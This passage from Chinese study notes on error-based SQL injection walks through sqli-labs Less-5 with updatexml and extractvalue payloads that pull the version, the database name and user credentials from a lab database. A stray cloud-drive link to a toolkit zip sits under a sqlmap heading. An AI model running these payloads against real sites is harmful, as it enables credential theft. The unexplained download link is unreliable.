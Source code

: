 ```mysql
http://192.168.70.14:8088/Less-5/?id=1' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),187,31),0x7e),1)--+
```

![image-20240806151055979](../../../../repo/assets/19.SQL注入/image-20240806151055979.png)

![image-20240806151129431](../../../../repo/assets/19.SQL注入/image-20240806151129431.png)

#### sqlmap报错注入less-5

```
https://dl-pc-zb.drive.quark.cn/rQDRo3Kh/2743880060/669e0f7729ea564fe44e44e8b6732d865eda40e9/669e0f779858d598a8084b29b30a12bb9c9f5573?filename=JiaoSuInfoSec_T00ls_Win11_24722_v1.1.RT_hw.Beta_.zip&auth_key=1724026615-18966220-948300-f5b4c63ecdc6f240048963d22d049afa&sp=100&token=3-99b3502ebb58c03b119ac7f7859e10e3-8-1-400-27fc66c54fdf4dfda6063d258964311e-400-0-0-0-6dd5b9588a3b6d17e269fb358744039b&ud=16-0-5-2-7-N-4-N-1-16-0-N
```



### **二、另外一种报错函数注入** **extractvalue** **的利用**

`extractvalue` 函数的基本格式为：

```mysql
ExtractValue(xml_frag, xpath_expr)
```

extractvalue 函数接收两个字符串参数，一个属 xml 标记片段和 xpath 表达式 xpath expr（xml是一种可扩展标记语言，使用标签来操作，html 就是一种常见的标记型语言，xml 主要用来存储数据，体现在作配置文件，或者充当小型数据库，在网络中传输数据，类似与 HTML 语言中的 div 标签；）（xpath expr 也称为定位器，也就是路径查询，因为咱们主要是为了学习sql 注入，所有函数的原理不用太纠结，只要大概了解一下就行了）其实简单点来说，第一个参数就是为了上传一个 xml 文档，第二个参数就是用 xpath路径法查找路径，而 extractvalue报错注入 就是通过再函数中写如不符合语法格式的 xpath 达到报错的目的，并且通过拼接sql 注入语句从而通过报错查询并显示我们想要查询的内容；

例如:

```
' and extractvalue('1',concat(0x7e,(select @@version),0x7e)) or '1'='1
```

#### less-5 报错注入extractvalue

##### 版本

```mysql
http://192.168.70.14:8088/Less-5/?id=1' and extractvalue(1,concat(0x7e,version(),0x7e))--+
```

![image-20240806144004238](../../../../repo/assets/19.SQL注入/image-20240806144004238.png)

##### 数据库名

```mysql
http://192.168.70.14:8088/Less-5/?id=1' and extractvalue(1,concat(0x7e,database(),0x7e))--+
http://192.168.70.14:8088/Less-5/?id=0' union select extractvalue(1,concat(0x7e,database(),0x7e)),2,3 --+
```

